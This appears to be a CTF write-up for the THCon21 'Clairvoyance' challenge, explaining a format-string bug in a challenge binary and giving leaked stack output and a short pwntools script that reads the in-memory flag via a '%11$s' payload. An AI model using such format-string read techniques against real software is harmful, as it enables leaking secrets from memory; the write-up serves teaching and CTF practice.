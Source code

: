 ```yaml
---
title: "THCon21 - Clairvoyance"
date: 2021-06-14T16:29:06+02:00
draft: true
tags: [pwn]
# image: "/image/blog-pic.jpg"
description: "A format string pwn challenge from THCon21"
showDate: true          # to enable/disable showing dates
math: true              # to enable showing equations (katex)
---
```


# THCon21 - Blacklisted

[Go back to write-ups list](../)

> **Category:** Intro
> 
> **Creator:** Voydstack
> 
> **Description:**
> 
> Do you have enough clairvoyance to read the flag inside my mind ?
> 
> **Attachments:**
> - [clairvoyance](/files/thcon21/clairvoyance)

## Analysing the binary

The attachment is an ELF x64 binary. Again, I opened it in IDA and went to the `main` function.

![Clairvoyance main](/image/thcon21/clairvoyance.png "Clairvoyance main")

To put it simply, the program asks you for your name and whether you want to read the flag. If you say "yes" to the latter, it will blow you off (and if you say something else, it'll just say bye as well).

The weakness here is that the program uses `printf(name)` after saying "nice try", which makes it vulnerable to a format string bug in the name you enter.

Now let's look at the read_flag function, since the flag is not used anywhere in `main` but is probably loaded in memory.

![Clairvoyance main](/image/thcon21/read_flag.png)

Bingo! The content of the file `flag.txt` is read into the `flag` variable. However, `flag` is located in the bss section, not on the stack, when printf will read its arguments on the stack.

![flag on bss](/image/thcon21/bss.png)

But that's not really an issue.

## Exploiting the format string bug

![Awesome meme you are missing :cry:](/image/thcon21/funm.png "r/AAAAAAAAAAAAAAAAA")

The address of the flag isn't on the stack, but our user input is. For example, here is what I get when I input `AAAAAAAA%p%p%p%p%p%p%p%p%p%p`:

```
Nice try, but no flag for you, AAAAAAAA0x7ffeb09c38c0(nil)(nil)0x50x1f0x7ffeb09c60780x100401365(nil)0xa7365790x4141414141414141
```
(I'd gladly put spaces between the `%p` but we're limited to 31 characters in total...)

Here, you can see that the beginning of our user input `AAAAAAAA` (or `0x4141414141414141`) shows up at the end, so at the 10th `%p`, which means that if we send `AAAAAAAA%10$s`, printf will try to display the string at the address `0x4141414141414141`.

Now if we replace `AAAAAAAA` by the address of `flag`, it should print the flag, right? Well, almost.

As you can see in the bss screenshot, the address of the flag is `0x0000000000404080`, which means that you'll have to throw in a bunch of null bytes, and fgets will stop reading your input once it sees a null byte.

So the little trick we're going to make is:
- Send `%11$s`
- Send 3 `A` for padding (making the length = 8), so that our address is fully on the 11th slot
- Send our address

*Note: the actual address starts with null bytes as you can see on the screenshot. Fortunately, we have to send it backwards to the program (because of a different endianness), so the non-null bytes go first!*

Now here is a little python script using pwntools that does exactly what we want:

```py
from pwn import *

elf = ELF("clairvoyance")
bss = elf.symbols["flag"]        # Loads the address of the flag
payload = b'%11$sAAA' + p64(bss) # p64 converts it to 8 bytes with the right endian
print(payload)

p = process("./clairvoyance")
p.recv()
p.sendline(payload)
p.recv()
p.sendline(b"yes")
print(p.recv())
```

![Clairvoyance solved](/image/thcon21/clairvoyance_solved.png)

*Note: as you can see on the screenshot, the binary has No PIE, so the address of `flag` in the bss doesn't change. Otherwise, the challenge would've been more complicated.*


[Go back to write-ups list](../)